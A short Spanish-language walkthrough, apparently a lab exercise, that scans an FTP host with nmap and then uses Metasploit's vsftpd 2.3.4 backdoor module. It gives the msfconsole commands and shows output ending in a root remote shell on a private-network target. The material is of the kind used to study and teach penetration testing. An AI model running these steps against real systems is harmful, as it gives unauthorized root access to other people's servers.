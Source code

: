 # Uso de Metasploit para atacar vsftpd

Correr Nmap para determinar el tipo de servidor FTP presente:

`nmap -p 21 192.168.100.93 -A`  

Lo que nos entrega los siguientes resultados:  

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-08 19:00 EDT
Nmap scan report for 192.168.100.93
Host is up (0.00080s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.100.99
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
Service Info: OS: Unix

Service detection performed. Please report any incorrect results a/ .
Nmap done: 1 IP address (1 host up) scanned in 0.76 seconds
```  

Abrir Metasploit con el comando `msfconsole`.  

Dentro de Metasploit buscar `vsftpd 2.3.4`. Se nos despliega un resultado. Podemos cargar ese módulo utilizando `Use 0`.

Con el comando `Show options` se nos despliegan los parámetros necesarios a configurar.  

´´´
Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/
                                      Using-Metasploit
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic
´´´  

Agregamos el `RHOST` (la dirección de la víctima).

`set RHOST direccion.de.la.victima`  

Ejecutamos el ataque con `run`.  

A continuación obtenemos un shell remoto como administradores del servidor:  
´´´
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 192.168.100.93:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.100.93:21 - USER: 331 Please specify the password.
[+] 192.168.100.93:21 - Backdoor service has been spawned, handling...
[+] 192.168.100.93:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.100.99:40451 -> 192.168.100.93:6200) at 2022-09-08 19:20:30 -0400

´´´

